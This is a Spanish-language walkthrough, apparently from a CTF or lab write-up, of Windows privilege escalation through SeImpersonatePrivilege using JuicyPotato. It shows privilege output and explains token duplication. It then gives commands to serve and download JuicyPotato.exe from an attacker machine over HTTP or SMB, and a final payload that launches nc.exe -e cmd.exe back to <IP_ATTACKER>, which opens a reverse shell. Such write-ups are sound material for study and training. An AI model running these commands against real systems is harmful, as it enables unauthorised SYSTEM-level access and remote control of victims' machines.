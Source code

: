 Info:

```
INFORMACI?N DE PRIVILEGIOS
--------------------------

Nombre de privilegio          Descripci?n                                  Estado       
============================= ============================================ =============
SeChangeNotifyPrivilege       Omitir comprobaci?n de recorrido             Habilitada   
SeImpersonatePrivilege        Suplantar a un cliente tras la autenticaci?n Habilitada   
SeIncreaseWorkingSetPrivilege Aumentar el espacio de trabajo de un proceso Deshabilitado
```

Vemos que `SeImpersonatePrivilege` esta `habilitado`.

Es muy similar a `SeImpersonatePrivilege`, utilizará el mismo método para obtener un token privilegiado. Luego, este privilegio permite asignar un token primario a un proceso nuevo/suspendido. Con el `token` de suplantación privilegiado puedes derivar un token primario `(DuplicateTokenEx)`. Con el `token`, puedes crear un nuevo proceso con `'CreateProcessAsUser'` o crear un proceso suspendido y establecer el token (en general, no puedes modificar el token primario de un proceso en ejecución).

URL = [Info SeImpersonatePrivilege](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens.html?highlight=SeImpersonatePrivilege#seimpersonateprivilege)

Vamos a descargarnos en nuestro `hosts` el binario malicioso llamado `JuicyPotato.exe`:

URL = [Download JuicyPotato.exe](https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe)

Ahora nos lo vamos a pasar a la maquina victima ejecutando este comando desde la maquina victima:

Antes abriremos un servidor de `python3` para que se lo pueda descargar:

```shell
python3 -m http.server 8000
```

Y ahora si podremos ejecutar el siguiente comando:

```powershell
mkdir C:\Temp
cd C:\Temp

powershell -c "(New-Object Net.WebClient).DownloadFile('http://<IP_ATTACKER>:8000/JuicyPotato.exe', 'C:\Temp\JuicyPotato.exe')"
```

Si esto fallara podremos hacerlo directamente desde el `SMB` poniendo lo siguiente:

```powershell
\\<IP_ATTACKER>\kali\JuicyPotato.exe
```

Quedando algo asi el `payload`:

```powershell
\\<IP_ATTACKER>\kali\JuicyPotato.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/C \\<IP_ATTACKER>\kali\nc.exe -e cmd.exe <IP_ATTACKER> <PORT>" -t *
```
